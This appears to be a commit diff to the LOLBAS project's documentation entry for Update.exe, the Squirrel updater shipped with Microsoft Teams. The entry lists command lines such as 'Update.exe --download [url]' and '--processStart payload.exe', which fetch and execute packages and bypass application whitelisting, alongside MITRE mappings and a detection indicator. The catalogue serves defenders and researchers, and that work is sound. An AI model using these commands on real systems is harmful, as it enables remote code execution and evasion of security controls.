

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/OtherMSBinaries/Update.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated update.exe with details from reegun21

```diff
--- a/_lolbas/OtherMSBinaries/Update.md
+++ b/_lolbas/OtherMSBinaries/Update.md
@@ -1,9 +1,33 @@
 ---
 Name: Update.exe
-Description: Update is the squirrel update utility used by Microsoft Electron app (Teams in this case)
-Author: 'Mr.Un1k0d3r'
+Description: Binary to update the existing installed Nuget/squirrel package
+Author: 'Oddvar Moe'
 Created: '2019-06-26'
 Commands:
+  - Command: Update.exe --download [url to package]
+    Description: The above binary will go that particular location and look for RELEASES file and download the nuget package.
+    Usecase: Download and execute binary
+    Category: Execute
+    Privileges: User
+    MitreID: T1218
+    MitreLink: https://attack.mitre.org/techniques/T1218/
+    OperatingSystem: Windows 7 and up with Microsoft Teams installed
+  - Command: Update.exe --download [url to package]
+    Description: The above binary will go that particular location and look for RELEASES file and download the nuget package.
+    Usecase: Download and execute binary
+    Category: AWL Bypass
+    Privileges: User
+    MitreID: T1218
+    MitreLink: https://attack.mitre.org/techniques/T1218/
+    OperatingSystem: Windows 7 and up with Microsoft Teams installed
+  - Command: Update.exe --download [url to package]
+    Description: The above binary will go that particular location and look for RELEASES file and download the nuget package.
+    Usecase: Download and execute binary
+    Category: Download
+    Privileges: User
+    MitreID: T1218
+    MitreLink: https://attack.mitre.org/techniques/T1218/
+    OperatingSystem: Windows 7 and up with Microsoft Teams installed
   - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
     Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
     Usecase: Application Whitelisting Bypass
@@ -21,12 +45,21 @@
     MitreLink: https://attack.mitre.org/wiki/Technique/T1218
     OperatingSystem: Windows 7 and up with Microsoft Teams installed
 Full_Path:
-  - Path: '%userprofile%\AppData\Local\Microsoft\Teams\Update.exe'
+  - Path: '%localappdata%\Microsoft\Teams\update.exe'
+Code_Sample:
+  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
 Detection:
   - IOC: Update.exe spawned an unknown process
 Resources:
+  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
+  - Link: https://twitter.com/reegun21/status/1144182772623269889
   - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
+  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
 Acknowledgement:
+  - Person: Reegun J (OCBC Bank)
+    Handle: '@reegun21'
   - Person: Mr.Un1k0d3r
     Handle: '@MrUn1k0d3r'
+  - Person: Adam
+    Handle: '@Hexacorn'
 ---
```
